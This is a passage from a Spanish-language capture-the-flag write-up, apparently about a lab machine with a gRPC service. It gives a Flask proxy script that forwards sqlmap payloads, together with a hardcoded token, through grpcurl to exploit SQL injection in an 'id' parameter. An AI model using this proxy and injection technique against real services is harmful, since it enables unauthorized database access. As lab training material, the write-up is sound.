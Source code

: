 ```

(la idea de la solucion no es mia, **```Tysm to Cack for giving me the idea```**)

Basicamente es levantar un servidor web con python, el cual actua como proxy, y que travez de un parametro recibira el payload de sqlmap. Este actuaria entre sqlmap y el servidor gRPC, el codigo al que llegue es:

```python
import subprocess
import json
from flask import Flask, request

app = Flask(__name__)

@app.route('/payload')
def ctrl_payload():
    payload = request.args.get('p')
    payload = payload.replace('"', "'")
    payload = '{"id": "' + payload + '"}'
    print(payload)
    cmd = ['grpcurl', '-plaintext', '-d', payload, '-rpc-header', 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYzRydGEiLCJleHAiOjE2ODQ5ODYwNDZ9.BVAx_9R6Cch8vwCUHknTLBm9l0wukqMrsy9TJcsGlJE', '10.10.11.214:50051', 'SimpleApp.getInfo']
    output = subprocess.check_output(cmd)

if __name__ == '__main__':
    app.run(port=12345)
```

Como pueden ver, al parametro ID vulnerable a SQLi se le concatena el payload, donde ese payload es el de sqlmap, despues se le pasa ese payload a la variable cmd, y por ultimo ejecuta ese comando, que vendria siendo el grpcurl pero con el payload de sqlmap

Y esto daria el mismo resultado que la primera forma:

![](/assets/img/PC/sqli4.png)
